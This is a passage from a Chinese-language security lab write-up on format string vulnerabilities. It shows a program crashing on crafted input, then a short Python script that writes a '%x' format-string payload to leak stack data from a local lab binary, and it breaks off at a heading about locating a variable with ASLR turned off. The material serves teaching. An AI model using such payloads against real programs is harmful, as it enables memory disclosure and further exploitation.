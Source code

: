 ```bash
python3 1.py
./prog1 < input
```

程序崩溃

![image-20230519175950764](assets/image-20230519175950764.png)

## 2.2 Print Out Data on the Stack

2.py

```python
#!/usr/bin/python3
# Print Out Data on the Stack

# print out 7*4 bytes of data on the stack
payload = "%x.%x.%x.%x.%x.%x.%x\n".encode('latin-1')

with open('input', 'wb') as f:
  f.write(payload)
```

```bash
python3 2.py
./prog1 < input
```

输出结果

![image-20230519180457500](assets/image-20230519180457500.png)

# 3 任务1

## 3.1  查看变量var位置

关闭ASLR
